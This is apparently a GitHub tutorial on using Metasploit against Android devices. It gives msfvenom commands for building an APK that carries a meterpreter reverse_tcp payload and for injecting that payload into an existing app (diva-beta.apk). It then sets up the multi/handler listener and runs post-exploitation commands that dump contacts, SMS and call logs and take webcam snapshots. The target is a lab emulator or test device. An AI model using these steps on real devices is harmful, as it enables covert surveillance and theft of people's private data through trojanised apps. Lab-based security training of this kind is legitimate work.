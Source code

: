 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

## Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](https://github.com/v1ns3c/Write-ups/blob/b8eb5b3375fe3ebeb7c3236309f3b684487479ba/Images/Documentations/Metasploit_for_Android/0_1.jpeg)

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/2.png)

Install the apk generated on the target device(genymotion/android)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/3.jpg)
![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/4.png)

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/5.jpg)

$ use exploit/multi/handler

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/6.png)


$ set payload android/meterpreter/reverse_tcp

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/7.png)

$ show options

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/8.png)

$ set LHOST <localhost ip>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/9.png)

$ exploit ‘or’ run

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/10.png)

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/11.png)

$ help ‘or’ ?

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/12.png)

$ dump_contacts

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/13.png)

$ dump_sms

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/14.png)

$ dump_calllog

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/15.png)

Go to the ‘metasploit-framework’ folder to get the dumps

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/16.png)

$ cat <calllog.txt>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/17.png)

$ cat <contacts.txt>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/18.png)

$ cat <sms.txt>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/19.png)

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/20.png)

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/21.png)

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

![](https://github.com/v1ns3c/Write-ups/blob/d9db4bfdb9bbf321d1540ab40cb9e9b2685542d5/Images/Documentations/Metasploit_for_Android/22.png)

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

Thanks for reading!





